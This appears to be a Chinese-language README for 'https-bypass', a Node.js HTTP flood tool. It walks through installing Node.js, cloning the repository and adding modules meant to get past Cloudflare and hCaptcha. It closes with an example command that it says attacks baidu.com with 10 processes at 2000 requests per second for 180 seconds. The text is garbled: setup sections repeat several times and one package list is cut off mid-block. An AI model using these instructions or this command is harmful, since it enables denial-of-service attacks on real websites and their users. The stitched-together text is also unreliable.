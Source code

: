 ### 部署nodejs
#### 使用git安装nvm
`git clone git://github.com/creationix/nvm.git ~/nvm`

#### 下载完成后加入系统环境

`source   ~/.bashrc`

#### nvm安装nodejs
`nvm install 16.15.0`
#### 如需要安装另外的版本

`nvm install 版本号`

#### 安装脚本到服务器
git clone 
cd

### 部署nodejs
#### 使用git安装nvm
`git clone git://github.com/creationix/nvm.git ~/nvm`

#### 下载完成后加入系统环境

`source   ~/.bashrc`

#### nvm安装nodejs
`nvm install 16.15.0`
#### 如需要安装另外的版本

`nvm install 版本号`

#### 安装
```shell
git clone https://github.com/piokto/https-bypass.git
cd https-bypass
```
#### 安装npm模块
```shell
npm i requests
npm i https-proxy-agent
npm i crypto-random-string
npm i events
npm i fs
npm i net# 需要到HTTP或SOCKS5代理
# 自行解决

### 部署nodejs
#### 使用git安装nvm
`git clone git://github.com/creationix/nvm.git ~/nvm`

#### 下载完成后加入系统环境

`source   ~/.bashrc`

#### nvm安装nodejs
`nvm install 16.15.0`
#### 如需要安装另外的版本

`nvm install 版本号`

#### 安装
```shell
git clone https://github.com/piokto/https-bypass.git
cd https-bypass
```
#### 安装npm模块
```shell
npm i requests
npm i https-proxy-agent
npm i crypto-random-string
npm i events
npm i fs
npm i net
npm i cloudscraper
npm i request
npm i hcaptcha-solver
npm i randomstring
npm i cluster
npm i cloudflare-bypasser
```
example：
node https-bypass.js GET 10 https://baidu.com 180 2000
使用GET 运行10个node进程攻击目标180秒 每秒2000次访问



npm i cloudscraper
npm i request
npm i hcaptcha-solver
npm i randomstring
npm i cluster
npm i cloudflare-bypasser
```
example：
node https-bypass.js GET 10 https://baidu.com 180 2000
使用GET 运行10个node进程攻击目标180秒 每秒2000次访问


